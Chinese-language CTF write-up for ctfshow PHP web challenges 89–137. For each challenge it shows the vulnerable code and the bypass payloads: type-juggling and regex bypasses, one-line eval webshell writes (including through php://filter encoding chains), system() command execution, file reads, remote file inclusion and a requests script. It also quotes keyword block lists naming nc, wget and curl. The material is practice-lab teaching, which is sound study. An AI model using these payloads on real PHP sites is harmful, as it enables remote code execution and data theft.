





参考链接：https://www.freebuf.com/articles/web/261802.html

## 89 数组绕过intval

```PHP
include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(c("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
}
```





利用数组绕过

payload:`num[]=1`

## 90 intval($num,0)

```PHP
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
} 
```

使用16进制绕过

## 91 /m多行匹配

```php
show_source(__FILE__);
include('flag.php');
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
}
else{
    echo 'nonononono';
} 
```

这里考了一个 /m多行匹配

所以第一个if其实是任意一行满足就行,而第二个if只能匹配第一行

payload：`?cmd=%0Aphp`

## 92 intval($num,0)

```php

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

16进制绕过

## 93 

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

八进制绕过

## 94 strpos

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(!strpos($num, "0")){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```



```
对于strpos()函数，我们可以利用换行进行绕过（%0a）

payload:?num=%0a010574

也可以小数点绕过

payload：?num=4476.0

因为intval()函数只读取整数部分

还可以八进制绕过(%20是空格的url编码形式)

payload：?num=%20010574
当然其实 %09，%0b，+等都可以绕过
```

## 95

```php
<?php

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

多过滤了一个  .  和上题一样,只不过不能用小数绕过了

## 96 

```PHP
highlight_file(__FILE__);
if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }
}
```

```
/var/www/html/flag.php              绝对路径
./flag.php                          相对路径
php://filter/resource=flag.php      php伪协议    
```

## 97 md5

```PHP
<?php
include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
else
print 'Wrong.';
}
?>
```

MD5碰撞或者数组绕过

## 98

```php
include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);
?> 
```

主要是三元运算符和变量覆盖

$\_GET?$\_GET=&$_POST:'flag';   意思就是说如果存在GET请求，则将POST请求覆盖掉GET请求

highlight_file($_GET['HTTP_FLAG']=='flag'?$flag: __FILE __);   意思就是说GET传参HTTP_FLAG的值为flag，则读取flag？

所以我就构造了GET：?flag=123

POST：HTTP_FLAG=flag

## 99 in_array弱类型比较

```php
highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?> 
```

考察点：php弱类型比较

```php
$allow = array(1,'2','3');
var_dump(in_array('1.php',$allow));
返回的为true

$allow = array('1','2','3');
var_dump(in_array('1.php',$allow));
返回false
```

in_array延用了php中的==
 具体内容可以查看php手册->附录->**PHP类型比较表**
 因为新加进去的随机数字每次都包含1，1存在的几率是最大的。
 所以直接写 `n=1.php post:content=<?php eval($_POST[1]);?>`多试几次即可

## 100.101         and与&&与=优先级

```php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
}

?>
```

知识点一：and 与 &&

原本以为两个都是一样的,但其实运算级有区别,因为赋值运算的优先级比AND和OR的高，所以先赋值；比&&和||的低，所以逻辑运算符先执行，先逻辑运算，再赋值。

所以这里其实只需要is_numberic($v1)为真就行

知识点二: ReflectionClass 类

https://blog.csdn.net/miuzzx/article/details/109168454

payload:`?v1=1&v2=echo new ReflectionClass&v3=;`

100非预期解1

```
直接输出$ctfshow;构造出 var_dump($ctfshow);
payload:v1=1&v2=var_dump($ctfshow)/*&v3=*/;
```

100非预期解2

```
因为过滤的字符比较少，所以可以直接执行命令。
方法不固定，在此聚两个例子
v1=1&v2=?><?php echo `ls`?>/*&v3=;*/
v1=1&v2=-system('ls')-&v3=-1;
```

## 102-103 

```php
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}
?> 

```

搬运师傅们的吧

先来说下题目本意
 is_numeric在php5的环境中，是可以识别十六进制的，也就是说，如果传入v2=0x66也是可以识别为数字的。

```php
var_dump(is_numeric("0x66"));  php5的环境下返回true  php7返回false
```

之后经过截断我们就得到了16进制，而且是不带0x的，这时候就可以通过调用函数hex2bin将16进制转换成字符串从而写入木马文件。（hex2bin如果参数带0x会报错）
 具体做法：
 首先将我们的一句话编码成16进制

```
<?php eval($_POST[1]);?>
0x3c3f706870206576616c28245f504f53545b315d293b3f3e
```

接着直接传入v2=0x3c3f706870206576616c28245f504f53545b315d293b3f3e&v3=1.php
 post:v1=hex2bin
 即可完成木马的写入。

本地测试成功写入木马。
 但是该题环境没有设置好用的是php7，所以我们还是得找到另外一种方法绕过。
 虽然文件内容不好控制，但是可以利用伪协议将内容进行编码转换。
 所以如果能找到一条php语句经过base64编码，在转换为16进制之后全部都是数字不就可以通过了吗？
 也就是说

```php
$a="xxx";
$b=base64_encode($a);
$c=bin2hex($b);
如果$c全部都是纯数字就可以了。
1234
```

这里直接借用其他师傅的payload

```php
$a='<?=`cat *`;';
$b=base64_encode($a);  // PD89YGNhdCAqYDs=
$c=bin2hex($b);      //这里直接用去掉=的base64
输出   5044383959474e6864434171594473

带e的话会被认为是科学计数法，可以通过is_numeric检测。
大家可以尝试下去掉=和带着=的base64解码出来的内容是相同的。因为等号在base64中只是起到填充的作用，不影响具体的数据内容。
1234567
```

最终payload：`v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php post: v1=hex2bin`


## 104

```php
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}
?> 
```

sha1碰撞，使用数组

## 105

```php
highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);
?> 
```

这里用了foreach进行变量覆盖



将$error = $flag

成果在die($error)中输出


## 106-107

```php
highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2) && $v1!=$v2){
        echo $flag;
    }
}
?>
```

数组,碰撞

## 108

```PHP
<?php

highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?>
```


- ereg — 正则表达式匹配
- ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。搜索字母的字符是大小写敏感的。 ereg函数存在NULL截断漏洞，**导致了正则过滤被绕过,所以可以使用%00截断正则匹配**

```
0x36d是 877
```

所以构造

```
?c=a%00aaaa778
```

当通过`strrev`和`intval`的时候，为 877

## 109

```PHP
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}

?> 
```

考察点：php 异常类
 先来看下这个正则表达式`/[a-zA-Z]+/` 匹配**至少有一个字母**的字符串
 所以我们只要让new后面有个类不报错以后，就可以随意构造了。我们随便找个php中的内置类并且可以直接echo输出的就可以了。
 举两个例子

```
Exception
ReflectionClas
```

new 之后我们就可以执行里面的system函数,虽然最后Reflection(system('tac f*')())会报错,但其实已经不影响我们执行system('tac f\*')

```
payload:
v1=Exception();system('tac f*');//&v2=a
v1=ReflectionClass&v2=system('tac f*')
```


## 110

```php

highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?> 
```

**利用** **FilesystemIterator** **获取指定目录下的所有文件**

http://phpffff.com/fifilesystemiterator

https://www.php.net/manual/zh/class.fifilesystemiterator.php

getcwd()函数 获取当前工作目录 返回当前工作目录

payload: ?v1=FilesystemIterator&v2=getcwd

## 111

```php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}


if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
    

    


}

?> 
```

考察点：php超全局变量$GLOBALS的使用

介绍

```php
$GLOBALS — 引用全局作用域中可用的全部变量
一个包含了全部变量的全局组合数组。变量的名字就是数组的键。
```

举个例子

```php
$a=123;
$b=456;
var_dump($GLOBALS);
```

返回内容较多就不一一列出了。我们只看最后两条，发现我们自行定义的变量会被输出。

```
  ["a"]=>
  int(123)
  ["b"]=>
  int(456)
```

## 112

```PHP
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```


考察点：php伪协议绕过is_file+highlight_file对于php伪协议的使用

函数介绍

```php
is_file — 判断给定文件名是否为一个正常的文件
is_file ( string $filename ) : bool
12
```

我们的目的是不能让is_file检测出是文件，并且 highlight_file可以识别为文件。这时候可以利用php伪协议。
 可以直接用不带任何过滤器的filter伪协议
 `payload:file=php://filter/resource=flag.php`
 也可以用一些没有过滤掉的编码方式和转换方式
 `payload:file=php://filter/read=convert.quoted-printable-encode/resource=flag.php`
 `file=compress.zlib://flag.php`
 `payload:file=php://filter/read=convert.iconv.utf-8.utf-16le/resource=flag.php`

## 113

```php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
} 
```


考察： php7.4里面的trick 

包含文件32 会溢出,参考make php great again

非预期

compress.zlib://flag.php

## 114

```PHP

error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
} 
```

留了个filter

`payload:file=php://filter/resource=flag.php`


## 115 trim函数的绕过+is_numeric绕过

```php
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
    if($num=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!";
}
```

考察点：trim函数的绕过+is_numeric绕过

函数介绍

```
语法
trim(string,charlist)

参数	描述
string	        必需。规定要检查的字符串。
charlist	    可选。规定从字符串中删除哪些字符。如果省略该参数，则移除下列所有字符：

"\0"       - NULL
"\t"       - 制表符
"\n"       - 换行
"\x0B"     - 垂直制表符
"\r"       - 回车
" "        - 空格
```

做个简单的小测试

```php
for ($i=0; $i <128 ; $i++) { 
    $x=chr($i).'1';
   if(is_numeric($x)==true){
        echo urlencode(chr($i))."\n";
   }
}
```

除了数字和+-.号以外还有 %09 %0a %0b %0c %0d %20
 再来看看 trim+is_numeric

```php
for ($i=0; $i <=128 ; $i++) { 
    $x=chr($i).'1';
   if(trim($x)!=='1' &&  is_numeric($x)){
        echo urlencode(chr($i))."\n";
   }
}
```

发现除了+-.号以外还有只剩下%0c也就是换页符了，所以这个题只有这一个固定的解了。
 `payload:num=%0c3`

## 116

## 117

## 118

## 119

## 120

## 121

## 122

## 123 PHP的字符串解析特性和register_argc_argv

https://www.freebuf.com/articles/web/213359.html

```php
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         
           eval("$c".";"); 
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
```

第一个难搞的地方`isset($_POST['CTF_SHOW.COM'])`因为php变量命名是不允许使用点号的

然后本地测试，又好像因为规则问题,导致.可以转化出来



 另外一个知识点

```
1、cli模式（命令行）下

	第一个参数$_SERVER['argv'][0]是脚本名，其余的是传递给脚本的参数

2、web网页模式下

	在web页模式下必须在php.ini开启register_argc_argv配置项
	
    设置register_argc_argv = On(默认是Off)，重启服务，$_SERVER[‘argv’]才会有效果

    这时候的$_SERVER[‘argv’][0] = $_SERVER[‘QUERY_STRING’]

    $argv,$argc在web模式下不适用
```

因为我们是在网页模式下运行的，所以`$_SERVER['argv'][0] = $_SERVER['QUERY_STRING']`也就是`$a[0]= $_SERVER['QUERY_STRING']`
 这时候我们只要通过 `eval("$c".";");`将$flag赋值flag_give_me就可以了。

```php
get:  $fl0g=flag_give_me;
post:  CTF_SHOW=1&CTF%5bSHOW.COM=1&fun=eval($a[0])

POST: 

CTF_SHOW=&CTF[SHOW.COM=&fun=echo $flag 

#125 

GET:?1=flag.php 

POST:CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[1]) 

#126 

GET:?a=1+fl0g=flag_give_me 

POST:CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1]) 

or

GET:?$fl0g=flag_give_me 

POST:CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0]) 7
```

## 127

```php
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}


if($ctf_show==='ilove36d'){
    echo $flag;
} 
```

payload：

```php
?ctf show=ilove36d
```


## 128

```PHP
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}
function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
}
```


https://www.cnblogs.com/lost-1987/articles/3309693.html

https://www.php.net/manual/zh/book.gettext.php

**小知识点： _()是一个函数**

_()==gettext() 是gettext()的拓展函数，开启text扩展。需要php扩展目录下有php_gettext.dll

所以 `call_user_func('_','phpinfo')` 返回的就是phpinfo

因为我们要得到的flag就在flag.php中，所以可以直接用get_defined_vars

**get_defined_vars()函数**

get_defined_vars — 返回由所有已定义变量所组成的数组 这样可以获得 $flag

payload: ?f1=_&f2=get_defined_vars

## 129

```php
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

函数介绍

```
stripos() 
查找字符串在另一字符串中第一次出现的位置（不区分大小写）。
```

一个简单的方法就是远程文件包含，在自己的服务器上写个一句话，然后保存为txt文档。
 例如 f=http://url/xxx.txt?ctfshow
 其中xxx.txt为一句话

要是没有服务器的话，我们也可以用php伪协议绕过

`payload:f=php://filter/read=convert.base64-encode|ctfshow/resource=flag.php`
 filter伪协议支持多种编码方式，无效的就被忽略掉了。

`/ctfshow/../../../../var/www/html/flag.php`


## 130-131

```PHP

error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

} 
```

绕过preg_match

```
f[]=1ctfshow
```

当然看师傅们的博客说的预期解是这样的：

考察点：利用正则最大回溯次数绕过

https://www.laruence.com/2010/06/08/1579.html

https://www.freebuf.com/articles/web/190794.html

PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 pcre 设定了一个回溯次数上限 pcre.backtrack_limit
 回溯次数上限默认是 100 万。如果回溯次数超过了 100 万，preg_match 将不再返回非 1 和 0，而是 false。这样我们就可以绕过第一个正则表达式了。
 python脚本如下

```python
import requests
url="http://03771c3c-6afb-4457-a719-19cc6ccf922e.chall.ctf.show/"
data={
	'f':'very'*250000+'ctfshow'
}
r=requests.post(url,data=data)
print(r.text)
```

## 132

```PHP
include("flag.php");
highlight_file(__FILE__);


if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
 
```

考察： php中&&和||运算符应用 

访问/admin，获得源代码

payload

```
username=admin&password=1&code=admin
```

## 133 

```PHP
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}

```

```
get传参   F=`$F `;sleep 3
经过substr($F,0,6)截取后 得到  `$F `;
也就是会执行 eval("`$F `;");
我们把原来的$F带进去
eval("``$F `;sleep 3`");
也就是说最终会执行  `   `$F `;sleep 3  ` == shell_exec("`$F `;sleep 3");
前面的命令我们不需要管，但是后面的命令我们可以自由控制。
这样就在服务器上成功执行了 sleep 3
所以 最后就是一道无回显的RCE题目了
```

链接奉上:

https://blog.csdn.net/qq_46091464/article/details/109095382

## 134

```php

highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```

- parse_str() 函数把查询字符串解析到变量中。
- extract() 函数从数组中将变量导入到当前的符号表。

```php
?_POST[key1]=36d&_POST[key2]=36d
```

## 135 

```PHP
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```

发现没有限制写文件

```
payload:F=`$F `;nl f*>xxx
1
```

然后再去访问url/xxx就可以得到flag了

## web136

其实是再135的基础上增加了过滤 ><
但是linux中还可以用tee写文件

ls|tee xxx

我们先来看下当前目录下有啥文件，访问url/xxx发现只有一个index.php
那我们再去看看根目录下有什么文件

ls /|tee xxx

得到 f149_15_h3r3
最后直接打开就可以了

nl  /f149_15_h3r3|tee xxx

## 137

class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}
call_user_func($_POST['ctfshow']);

